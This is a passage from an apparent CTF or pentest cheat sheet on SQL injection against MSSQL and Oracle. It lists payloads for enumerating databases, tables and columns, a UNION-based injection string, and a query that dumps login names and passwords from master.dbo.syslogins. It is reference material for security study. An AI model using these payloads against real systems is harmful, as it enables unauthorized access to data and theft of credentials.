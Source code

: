 - String length
    - `LEN()`
- Current DB
    - `db_name()`
#### Dump DB Name
- `DB_NAME({NUM})`
    - NUM start from 1
- `SELECT name FROM master ..sysdatabases`
- `SELECT name FROM master.dbo.sysdatabases`
- One line
    - `SELECT quotename(name) FROM master.dbo.sysdatabases FOR XML PATH('')`

#### Dump Table name
- One line 
    - `SELECT quotename(name) FROM {DB_NAME}..sysobjects where xtype='U' FOR XML PATH('')`
- Select One Data
    - `SELECT TOP 1 name,NULL FROM music..sysobjects where xtype='U'`
        - `and name not in ('Table_1','Table_2')`
#### Dump column name
- One line
    - `SELECT quotename(name) FROM {DB_NAME}..syscolumns WHERE id=(SELECT id FROM {DB_NAME}..sysobjects WHERE name='{TABLE_NAME}') FOR XML PATH('')))) -- -`
- Select One Data
    - `SELECT column_name FROM information_schema.columns WHERE table_catalog='{DB NAME}' AND table_name='{TABLE_NAME}'`
#### DB Admin
- `select concat(user,',',password),NULL from master.dbo.syslogins -- -`
### Oracle Injection
- Concatenation String
    - `'aaa'||'bbb'`
- Sub string
    - `SUBSTR('ABC',1,1)`
        - Return `A`
    - `SUBSTR('ABC',2,1)`
        - Return `B`
- Union based
    - Column counts, Data type must be same (`NULL`)
    - Select must have `FROM`, if no item can FROM, use `dual`
    - eg. `' UNION SELECT NULL,NULL,3 FROM dual --`
- Current Username
    - `SELECT USER FROM dual`
- Dump DB (Schema) Names
    - `SELECT DISTINCT OWNER FROM ALL_TABLES` (return multiple rows)
    - Common (Normal DB) : `APEX_040200`, `MDSYS`, `SEQUELIZE`, `OUTLN`, `CTXSYS`, `OLAPSYS`, `FLOWS_FILES`, `SYSTEM`, `DVSYS`, `AUDSYS`, `DBSNMP`, `GSMADMIN_INTERNAL`, `OJVMSYS`, `ORDSYS`, `APPQOSSYS`, `XDB`, `ORDDATA`, `SYS`, `WMSYS`, `LBACSYS`
        - But data may in `SYSTEM` or other existing DB
- Dump Table Names
    - All : `SELECT OWNER,TABLE_NAME FROM ALL_TABLES`
    - Specific DB: `SELECT TABLE_NAME FROM ALL_TABLES WHERE OWNER='{DB_NAME}'`
- Dump Column Names
    - `SELECT COLUMN_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='{TABLE_NAME}'`
- Select data
    - `SELECT {Col1},{Col2} FROM {Table}`
- Select One line using ROWNUM (Doesn't support limit)
    - eg. `SELECT NULL,COLUMN_NAME,3 FROM (SELECT ROWNUM no, TABLE_NAME, COLUMN_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='WEB_ADMINS') where no=1 -- ` 
        - no=1 2 3 ...
- DB Version
    - `select version from V$INSTANCE`
    - `select BANNER from v$version`
- Error Based
